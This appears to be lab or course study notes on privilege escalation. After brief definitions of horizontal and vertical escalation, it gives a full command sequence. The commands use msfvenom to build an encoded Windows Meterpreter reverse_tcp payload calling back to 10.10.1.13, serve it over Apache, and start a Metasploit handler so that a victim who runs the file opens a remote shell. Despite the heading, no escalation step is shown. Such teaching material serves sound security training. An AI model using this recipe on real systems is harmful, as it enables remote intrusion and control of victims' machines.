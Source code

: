 - Privileges restrict user access to specific programs, features, OSes, functions, files, or codes. Privilege escalation is necessary when unauthorized access to system resources is desired, occurring in two forms:

    - **Horizontal Privilege Escalation:** Unauthorized access to resources and functions of an authorized user with similar access permissions.
    - **Vertical Privilege Escalation:** Unauthorized access to resources and functions of a user with higher privileges, such as an application or site administrator.

---

#### Escalate Privileges using Privilege Escalation Tools and Exploit Client-Side Vulnerabilities

##### Privilege Escalation with Meterpreter

- Creating a Malicious Executable:
   - Generate a Meterpreter payload with the command:
     ```bash
     msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=10.10.1.13 -f exe > Exploit.exe
     ```
   - Share the executable in a shared folder (`/var/www/html/share/`).

- Starting Apache Server:
   - If needed, create a shared folder with:
     ```bash
     mkdir /var/www/html/share
     chmod -R 755 /var/www/html/share
     chown -R www-data:www-data /var/www/html/share
     ```
   - Check the shared folder with `ls -la /var/www/html/ | grep share`.
   - Copy the Exploit.exe to the shared folder with:
     ```bash
     cp Exploit.exe /var/www/html/share/
     ```
   - Start the Apache server with `service apache2 start`.

- Launching Metasploit:
   - Open a new terminal window and run `msfconsole`.
   - Use the exploit handler with:
     ```bash
     use exploit/multi/handler
     ```

- Configuring Payload and Starting Handler:
     ```bash
     set payload windows/meterpreter/reverse_tcp
     set LHOST 10.10.1.13
     ```
   - Start the handler with `exploit -j -z`.

- Victim Machine Interaction:
   - On victim machine, visit `http://10.10.1.13/share` to view the shared folder.
   - Download and execute Exploit.exe.
